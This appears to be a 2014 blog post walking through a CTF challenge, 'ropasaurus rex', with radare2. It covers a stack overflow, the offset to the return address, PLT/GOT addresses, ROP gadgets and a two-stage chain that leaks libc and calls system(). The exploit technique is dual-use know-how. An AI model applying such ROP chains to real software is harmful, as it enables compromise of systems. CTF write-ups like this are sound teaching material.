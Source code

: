 ```yaml
---
layout: post
title: "pwning with radare2"
date: 2014-11-23 22:42:33 -0500
comments: true
categories: ctf pwning radare2
---
```

radare2 is a very cool set of tools that you probably don't know how to use!
Let's go through a simple exploit CTF challenge to understand how to use it for
exploit development.

We'll be focusing on "ropasaurus rex" which is a simple challenge from Plaid CTF
After checking out the latest and greatest radare from git, let's get started!

Open up ropasaurusrex in r2 and call analyze on the binary.
We can list the functions with "afl"

![Imgur](http://i.imgur.com/18NyivR.png)

First thing to do, let's see how the binary looks. To disassemble, r2 uses the
`pd` directive. So let's disassemble the main function with `pdf @ main`

![Imgur](http://i.imgur.com/PAFblNt.png)

Ok so main is a very simple function. We can "decompile" it by hand.

```
int main() {
  fcn.0x80483f4();
  sym.imp.write(stdout, str.WIN_n, 4);  // write is fd, string, len
}
```
We can print the string to see what is being printed.

![Imgur](http://i.imgur.com/Sp4IZjw.png)

Ok, so time to see what happens in 0x80483f4

![Imgur](http://i.imgur.com/yZW400k.png)

Great, this function is also very simple.
Let's reverse it!

```
sub_0x80483f4() {
  char buffer[0x88];
  sym.imp.read(stdin, buffer, 0x100);
}
```

So we see that 0x100 (256) bytes are read in.
"buffer" is on the stack size 0x88. This is size 136. We read in 256 bytes on
the stack buffer which is only size 136. Great, we found the vulnerability, but
don't stop now, Let's get a shell, radare2 has some more tools that can help us
with that.

Let's check what protections are on the binary. We know our machine runs with
ASLR (and if your's doesn't why not!?!?)

I like to use the tool "checksec.sh" from trapkit.de

![Imgur](http://i.imgur.com/Hu0YuI9.png)

Looks like nx is enabled. So, we're going to need to rop!
First thing to do, is find out how big our buffer is so that we can take control
of EIP.

ragg2 + radare2 can be used with De Bruijn patterns to find the offset.
We use ragg2 to generate the pattern, and r2 to find how far into the pattern
before the return address on the stack is overwritten.

![Imgur](http://i.imgur.com/mPxdxJJ.png)

Ok, great, so the exploit can be [140 bytes of padding|start of rop chain]

Because we have both read and write libc functions, we can create a rop chain
that will do the following.

- Leak libc address of write
  - Compute offset of `system` with the provided libc (I'm using mine here on
ubuntu)
- Write our command to somewhere.
- Return to vulnerable function, now we know the location of `system`
- Call `system` with our written string.

So first, we should find the locations of `read` and `write` in the PLT

![Imgur](http://i.imgur.com/wIS8uFD.png)

```
[0xf77db0d0]> afl |grep read
0x0804832c  6  1  sym.imp.read
[0xf77db0d0]> afl |grep write
0x0804830c  6  1  sym.imp.write
```
ok, so we can call either of those there.

As for the GOT, we can find it like so

![Imgur](http://i.imgur.com/9B7LamN.png)

To leak a libc address we'll want to read from the GOT entry of a known libc
function. We can see that read is in the GOT at 0x804961c.
Write is done as such.
```
ssize_t write(int fildes, const void *buf, size_t nbyte);
```
So something like this is what we want.
```
write(1 /*stdout*/, 0x804961c /*read@got*/, 4 /*size to read*/);
```
But then, how do we clean up the stack to go to our next function which is to
write our command? We need to pop 3 items off of the stack, and set the return
address to read. So first, let's find how to pop off the stack.
r2 has some great rop gadget search tools, so we need to find gadgets that do
the following.
```
pop ?
pop ?
pop ?
ret
```
Where `?` can be any register, we don't really care. This cleans up the stack
and gets us to the next return address. We can use the `/R` command for finding
gadgets.
```
[0x08048440]> /R  pop,pop,pop,ret
```
r2 gives us back a bunch of example gadgets. I see one here which looks nice.
```
  0x080484b6           5e  pop esi
  0x080484b7           5f  pop edi
  0x080484b8           5d  pop ebp
  0x080484b9           c3  ret
```
I'll refer to this as "pppr" for poppoppopret.
So, stage 1 of our payload can look like this
```
STAGE 1
--frame_1--
[write@plt]
[pppr     ] // return address
[1        ]
[read@got ]
[4        ]
--frame_2--
[??       ]
```
Next, we need to find a place to write our command string to system.
We can use the read function to do that. Read looks like this
```
ssize_t read(int fd, void *buf, size_t count);```
```
So let's do
```
read(0 /*stdin*/, target, length of command);
```
We now need a place to read the string to. ELF has different sections, with
different permissions. Some are read only, write only, execute only, or any
combination of the three! rabin2 lets us see the secitions and find the
permissions and sizes of each, so we can tell where to write to.
![Imgur](http://i.imgur.com/YsU1Blx.png)
Perfect! there are plenty of sections. Generally I like to write to the `.bss`
section, but this is only size 8, which would limit our command. So let's pick
the `.dynamic` section. It is size 208, and we can write to it.
```
idx=20 vaddr=0x08049530 paddr=0x00000530 sz=208 vsz=208 perm=-rw- name=.dynamic
```
We'll reuse the same pppr gadget, because write has the same number of args.
So now our rop chain can be.
I'll call 0x08049530 writeaddr, and len(cmd) the length of our command.
So this now leaks the libc address of read. Then calls read from stdin to a
memory address that we can write to. Then we need to return to our vulnerable
function to then execute the system address that we calculate.
```
STAGE 1
--frame_1--
[write@plt]
[pppr     ] // return address
[1        ]
[read@got ]
[4        ]
--frame_2--
[read@plt ]
[pppr     ]
[0        ]
[writeaddr]
[len(cmd) ]
--frame_3--
[vuln_func]
```
In my libc, we can find the offsets of read and system. Because we leak the
libc address of read, we can compute where system is by doing the following
math.
```
offset = libc_read - libc_system
sys_addr = leaked_read_addr - offset
```
I get the following addresses, using gdb instead of r2, because I dont know
how to do this quickly in r2 ;)
```
minishwoods old/ropasaurusrex » gdb -q /lib/i386-linux-gnu/libc.so.6
Reading symbols from /lib/i386-linux-gnu/libc.so.6...(no debugging symbols found)...done.
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x40100 <system>
gdb-peda$ p read
$2 = {<text variable, no debug info>} 0xdb4b0 <read>
```
Now all that is left is to do the same stack smash, then call system.
System looks like this
```
int system(const char *command);
```
So we just want
```
system(0x08049530 /*address of the string we wrote*/);
```
Then were done! Stage 2 of the rop can be like this
```
STAGE 2
--frame_1--
[system   ]
[JUNK     ] //can be any 4 bytes, we dont care once we execute system()
[writeaddr]
```
Put it all together in a neat exploit like this
https://gist.github.com/48bcb49cb71f96b98367
and were all done!

